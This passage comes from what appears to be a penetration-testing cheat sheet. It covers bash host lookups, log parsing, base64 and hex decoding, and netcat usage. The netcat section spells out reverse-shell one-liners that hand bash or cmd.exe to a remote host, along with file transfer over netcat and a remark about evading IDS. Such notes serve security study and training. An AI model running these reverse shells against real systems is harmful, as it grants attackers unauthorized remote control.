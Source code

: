     -   Use a bash loop to find the IP address behind each host
        `for url in $(cat list.txt); do host $url; done`

    -   Collect all the IP Addresses from a log file and sort by
        frequency
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

-   Decoding using Kali

    -   Decode Base64 Encoded Values

        `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

    -   Decode Hexidecimal Encoded Values
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

-   Netcat - Read and write TCP and UDP Packets

    -   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):
        [https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)

    -   Connect to a POP3 mail server
        `nc -nv $ip 110`

    -   Listen on TCP/UDP port
        `nc -nlvp 4444`

    -   Connect to a netcat port
        `nc -nv $ip 4444`

    -   Send a file using netcat
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    -   Receive a file using netcat
        `nc -nlvp 4444 > incoming.exe`

    -   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444


    -   Create a reverse shell with Ncat using cmd.exe on Windows
        `nc.exe -nlvp 4444 -e cmd.exe`

        or

        `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`

    -   Create a reverse shell with Ncat using bash on Linux
        `nc -nv $ip 4444 -e /bin/bash`

    -   Netcat for Banner Grabbing:

        `echo "" | nc -nv -w1 <IP Address> <Ports>`

-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS
